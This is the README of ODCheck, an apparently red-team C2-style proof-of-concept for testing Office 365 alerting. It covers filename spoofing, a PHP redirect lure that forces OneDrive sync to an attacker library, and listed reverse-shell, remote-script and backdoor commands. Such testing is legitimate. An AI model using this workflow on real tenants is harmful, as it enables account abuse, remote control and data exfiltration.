 # ODCheck

ODCheck is a C2-like proof-of-concept solution designed to empower security professionals in evaluating their alerting systems against specific cyber-attacks within the Office 365 environment. This tool simplifies the process of testing local security solutions, particularly in scenarios involving data exfiltration through OneDrive and Sharepoint traffic.
<br/><br/>

| MITRE Technique             | ID |
| :---------------- | :------: |
| Exfiltration over C2 Channel        |   [T1041](https://attack.mitre.org/techniques/T1041/)   |
| Masquerading: Right-to-Left Override            |   [T1036.002](https://attack.mitre.org/techniques/T1036/002/)   |
| Modify Registry    |  [T1112](https://attack.mitre.org/techniques/T1112/)   |
| Automated Collection |  [T1119](https://attack.mitre.org/techniques/T1119/)   |
<br/>

 **Setting Up ODCheck**
 
```
# You will need to have the PS2EXE PowerShell module installed 
Install-Module PS2EXE

# Copy the full ODCheck Folder from Github
git clone https://github.com/itssixtyn3in/ODCheck

# Run Manager.ps1 to start the Wizard
.\manager.ps1
```
ODCheck provides a few customization options from here that can be used, depending on what all you want to test.

- Option 1) This will customize the variables of the files that ODCheck will watch out for when the agent has been executed on a host. The setup will also require that you know the tenant and document library name that you will be using for the mutual sync connection. When setting up a document library that can be 

- Option 2) Inject a file name with the Right-To-Left-Override character to spoof the file extension.

- Option 3) Packages the script into an EXE file.
 <br/><br/>

 **Customizing the ODCheck Commands**
 
 The ODCheck client has been set up with five commands out of the box, but for the full functionality you will want to edit some of the commands to work for your needs (change the IP for the listener etc)
  <br/><br/>
 **Establishing A Sync Connection**
 
 The Microsoft Teams client in it's default configuration allows users to add website tabs to private conversations, or Teams channels. The website tab option can be linked to external pages, which can be used as a jumping point to have users sync specific Sharepoint libraries using the ODOpen:// protocol handler. For further details regarding this please see https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/

 If you've taken over a Office 365 account and can create Sharepoint Sites and write Microsoft Teams messages, then you can retrieve the ODSync link the following way. 
- Create a new sharepoint library and upload a file
- In a browser open up your dev tools > network > click on the 'sync' button on the Sharepoint page to trigger the ODOpen command
- Cope the URL from the network section entry
  
 ![onedrive_link-1024x231](https://github.com/itssixtyn3in/ODCheck/assets/130003354/40d0c5a7-c598-4a7f-adfb-349c533b7724)


 Your link for the sync connection will look similar to this:
 ```
 odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST
```
Upload the ODOpen URL in a PHP file on a webhost that you control. The PHP file content should look like the following:
```
<?php
header("Location: odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST", true, 301);
exit;
?>
```
 Once this sync has been established, then ODCheck can assist with creating a C2 connection. 
<br/><br/>
**Running commands**

Once a sync connection has been set up to the Sharepoint Document Library and the ODCheck client has been executed, then commands can be executed by dropping the payload files into the shared sync folder. 

- Enumeration: Runs multiple Windows enumeration commands and returns the output into the sync folder.
- Reverse Shell: Attempts to run a powershell base64 encoded reverse shell
- Execute remote Powershell script: Attempts executing a remote powershell script
- Install ODCheck protocol handler: Install the ODCheck protocol handler as a backdoor that can be triggered with odcheck://
- Trigger CVE-2023-32214: Attempts to run the MS-CXH-FULL protocol handler to cause a black screen condition.

https://github.com/itssixtyn3in/ODCheck/assets/130003354/36ea337f-ed2c-427e-9d4e-9628c812404f

